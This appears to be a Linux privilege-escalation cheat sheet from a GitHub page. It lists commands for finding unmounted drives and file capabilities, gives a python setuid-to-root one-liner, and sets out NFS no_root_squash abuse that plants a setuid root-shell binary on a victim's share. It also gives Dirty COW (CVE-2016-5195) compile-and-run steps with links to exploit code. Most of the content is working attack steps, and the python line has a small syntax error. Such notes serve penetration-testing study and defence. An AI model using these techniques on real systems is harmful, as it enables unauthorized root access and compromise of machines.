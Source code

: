 ### Unmounted Drives

```
mount
cat /etc/fstab # Swap partition
/bin/lsblk # Available disk
```

### Capabilities

```
getcap -r / 2>/dev/null # ep in end means privilege everything # GTFO Bins.

# Example: cap_setuid+ep
python2.6 -c 'import os; os.setgid(0);os.setuid(0);os.system(/bin/bash)'
```

### NFS Root Squashing

```
cat /etc/exports 
# Check if rw and "no_root_squash" both are present 
# The directory in which both are present is shareable and mountable.

# On kali
showmount -e <Victim IP>
mkdir /tmp/1
mount -o rw,vers=2 <Victim IP>:/tmp /tmp/1
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/1/x.c
gcc /tmp/1/x.c -o /tmp/1/x
chmod +s /tmp/1/x
```

# dirtyc0w
https://www.exploit-db.com/exploits/40616
```
* $ gcc cowroot.c -o cowroot -pthread
* $ ./cowroot
```

```
# affects all versions since 2.6.22

# the vulnerability has been patched in kernel versions 4.8.3, 4.7.9, 4.4.26 and newer.
```

- 1. 
    `/etc/passwd` based
    - 1.
        Firefart: [FireFart/dirtycow/dirty.c](https://github.com/FireFart/dirtycow/blob/master/dirty.c)​
    - 2.
        CPP: [gbonacini/CVE-2016-5195](https://github.com/gbonacini/CVE-2016-5195)​
- 2.
    `SUID-based root`
    - 1.
        cowroot.c: [rverton/e9d4ff65d703a9084e85fa9df083c679](https://gist.github.com/rverton/e9d4ff65d703a9084e85fa9df083c679)
